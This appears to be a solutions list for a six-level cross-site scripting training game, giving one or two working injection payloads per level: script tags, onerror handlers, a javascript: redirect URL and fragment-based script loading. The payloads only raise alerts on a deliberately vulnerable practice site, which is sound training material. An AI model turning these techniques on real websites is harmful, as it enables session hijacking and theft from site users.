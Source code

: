 # Level 1
```
https://xss-game.appspot.com/level1/frame?query=<script>alert()</script>
```

# Level 2
```
<img src="no_image.nothing" onerror="alert()">
```

# Level 3
```
https://xss-game.appspot.com/level3/frame#'onerror='alert()'
```

# Level 4
```
');alert('
```

# Level 5
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```

# Level 6
```
https://xss-game.appspot.com/level6/frame#//google.com/jsapi?callback=alert
https://xss-game.appspot.com/level6/frame#data:text/plain,alert()
```
